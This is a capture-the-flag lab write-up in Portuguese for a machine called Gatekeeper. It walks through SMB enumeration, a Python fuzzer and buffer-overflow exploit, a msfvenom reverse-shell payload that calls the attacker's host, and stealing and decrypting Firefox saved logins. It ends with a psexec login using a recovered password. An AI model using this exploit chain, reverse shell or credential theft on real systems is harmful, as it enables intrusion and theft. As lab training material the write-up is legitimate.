# _**Gatekeeper**_

## _**Write-up**_
Vamos começar com um scan da rede para descobrirmos quais portas estão abertas e quais seus respectivos serviços; ferramenta <mark>Nmap</mark>
> ```bash
> nmap --open -sS [ip_address]
> nmap -p [open_ports_discovered] -sV [ip_address]
> ```


Vamos tentar enumerar serviço por serviço  
Primeiro, RPC com ```rpcclient -U "" [ip_address] -N```  



Parece que não podemos retornar nenhuma informação devido a restrições  
Continuando, vamos enumerar o serviço SMB na porta 139  
> ```bash
> smbclient -L//[ip_address] -N
> smbclient -U '%' -L//[ip_address]
> nmap -p [smb_port] --script smb-enum-shares [ip_address]
> nmap -Pn --script smb-vuln* -p [smb_port] [ip_address]
> ```


Conseguimos recuperar 2 arquivos via SMB
* desktop.ini
* gatekeeper.exe



Continuando nossa enumeração, encontramos mais diretórios e mais arquivos  



Os arquivos NTUSER.DAT parecem ser importantes, vamos transferir para nossa máquina e investigar  
Vamos continuar nossa enumeração com a ferramenta <mark>enum4linux</mark> para ter uma visão mais completa
> ```bash
>  enum4linux -a [ip_address]
> ```


Nenhum retorno foi útil para nós  
Tentando se conectar via Netcat na porta 31337, temos um _prompt_  
Ao digitar, seu retorno é **hello [entrada]!**  

  

Vasculhando também _gatekeeper.exe_, parece ser ele sendo executando na porta 31337  

 

Parece que podemos tentar executar um ataque de **buffer overflow**  
Primeiro, conseguimos determinar que é um executável de 32-bit  

Na entrada, no prompt da conexão, digitando diversos 'a', vemos que em um certo ponto, um estouro acontece ou _crash_ do programa  

Em C, strings precisam terminar com um caractere nulo (0x00)  
Se não colocado, funções de exibição continuarão a ler a memória  

No arquivo _gatekeeper.exe_, podemos observar também que a flag **Image File Characteristics** aponta _No relocs_, indicando o mesmo uso de endereços de memória  

Utilizando o código python abaixo, conseguimos determinar o tamanho exato de estouro
> ```python
> import socket
> import sys
> import time
> ip = [target_ip_address]
> port = 31337
> tamanho = 100
> while True:
>    try:
>       payload = b"A" * tamanho
>       print(f"Testando bunffer com tamanho {tamanho} bytes")
>       s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>       s.settimeout(3)
>       s.connect((ip, port))
>       s.send(payload)
>       s.recv(1024)
>       s.close()
>       tamanho += 1
>       time.sleep(1)
>    except:
>       print (f"estouro em {tamanho} bytes")
>       sys.exit()
> ```


O travamento do programa acontece com um _buffer_ de 140 bytes  
Como cada binário foi compilado em 32 bits (x86), os registradores e endereços de memória ocupam exatamente 4 bytes  
Isso significa que o deslocamento exato _offset_ para controlar o ponteiro de execução (EIP) está próximo deste valor  
Para descobrir o valor exato, foi preciso procurar na Internet, e ele é de **146 bytes**  
Nossa estrutura agora deve ficar: ```[146 bytes de preenchimento] + [endereço JMP ESP; 4 bytes] + [folga/NOP Sled; 8-16 bytes] + shellcode]```  

Como a arquitetura x86 utiliza o padrão **Little Indian**, é preciso inverter a ordem dos bytes ao escrevero o script  
E temos que é: ```\xc3\x14\x04\x08```  
Para gerarmos o código que vai se conectar de volta a máquina, vamos utilizar **msfvenom**  
> ```bash
>  msfvenom -p windows/shell_reverse_tcp LHOST=[machine_ip_address] LPORT=[port_number] -b "\x00\x0a" -f python -v shellcode
> ```

Para nosso código em Python, temos o seguinte  
> ```python
> import socket
> import sys
> 
> ip = "[target_ip_address]"
> port = 31337
> offset = 146
> 
> # Endereço do JMP ESP invertido (Little Endian)
> jmp_esp = b"\xc3\x14\x04\x08"
> 
> # NOP Sled = Folga de segurança para o Shellcode respirar na pilha
> nops = b"\x90" * 16
> 
> # Cole aqui o Shellcode gerado pelo seu msfvenom
> shellcode = (
> 	msfvenom shellcode
> )
> 
> payload = b"A" * offset + jmp_esp + nops + shellcode + b"\r\n"
> 
> try:
>     print(b"Enviando payload")
>     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>     s.connect((ip, port))
>     s.send(payload)
>     s.close()
>     print("Payload enviado")
> except Exception as e:
>     print(f"Erro ao conectar")
>     sys.exit()
> ```

Executando nosso código e com **nosso listener ligado na porta alvo**, obtemos uma _reverse shell_  



Enviamos winPEAS.bat para a máquina-alvo e executamos  
Após algumas análises, voltamos para investigar o _desktop_ e navegamos para Firefox  
Observando, percebemos o arquivo _ljfn812a.default-release_  
Ele contém arquivos de login  

Dois arquivos que parecem importantes: logins.json e key4.db  
Vamos enviar para nossa máquina; ordem dos comandos: nossa máquina -- máquina alvo
> ```bash
> mkdir /tmp/shared
> sudo impacket-smbserver -smb2support compartilha /tmp/shared
> ```
> ```bash
> copy logins.json \\[machine_ip_address]\compartilha\
> copy key4.db \\[machine_ip_address]\compartilha\
> ```

Procuramos um programa para poder quebrar a criptografia dos arquivos e encontramos <mark>firepwd</mark>  
Instalamos o necessário e executamos  



Após a execução, conseguimos obter as credenciais  
Vamos utilizá-las juntamente de <mark>psexec</mark> para acessar a máquina  
> ```bash
> python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@[target_ip_address] cmd.exe
> ```



Agora, ir atrás das flags!